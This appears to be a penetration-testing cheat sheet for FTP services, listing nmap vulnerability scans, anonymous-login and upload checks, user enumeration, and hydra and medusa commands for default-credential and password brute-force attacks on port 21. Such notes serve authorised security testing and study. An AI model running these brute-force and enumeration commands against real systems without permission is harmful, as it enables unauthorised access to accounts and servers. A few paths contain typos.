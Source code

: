 # FTP (TCP 21) | TFTP (UDP 21)

nmap check

```
 nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -Pn -oN nmap/ftpVuln -p 21 $IP
 
 nmap --script=*ftp* --script-args=unsafe=1 -p 20,21 $IP
```



Anonymous access and try upload

```
ftp ip
ftp> USER anonymous
ftp> PASS anonymous/empty password
ftp> put file //test uploading
ftp> get file//test download

```



users enumerate

[https://github.com/pentestmonkey/ftp-user-enum](https://github.com/pentestmonkey/ftp-user-enum)

```bash
ftp-user-enum.pl -U users.txt -t $ip //solaris

ftp-user-enum.pl -M iu -U users.txt -t $ip //ftpd
```



default credentials

```
 hydra -s <PORT> -C usr/share/wordlists/ftp-default-userpass.txt -u -f $IP ftp
```



bruteforce attacks

```
// for know username
hydra -l $user -P /usr/share/john/password.lst ftp://$ip:21

hydra -l $user -P /usr/share/wordlistsnmap.lst -f $ip ftp -V

medusa -h $ip -u $user -P passwords.txt -M ftp

```

